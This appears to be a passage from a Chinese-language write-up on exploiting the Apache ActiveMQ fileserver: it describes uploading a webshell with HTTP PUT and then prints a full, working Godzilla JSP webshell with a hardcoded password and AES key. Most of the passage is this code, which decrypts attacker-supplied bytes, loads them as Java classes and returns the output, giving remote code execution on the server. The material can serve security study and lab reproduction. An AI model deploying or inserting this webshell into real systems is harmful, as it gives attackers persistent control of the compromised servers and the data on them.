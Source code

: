 

上传webshell

```
首先将webshell上传到fileserver，之后才能从fileserver转移
由于ActiveMQ是一个java程序，因此需要传入一个jsp的webshell
然后用PUT方法吧webshell上传到fileserver
```

哥斯拉生成jsp木马

```
<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```



访问fileserver，抓包

![image-20250408201330578](./assets/image-20250408201330578.png)

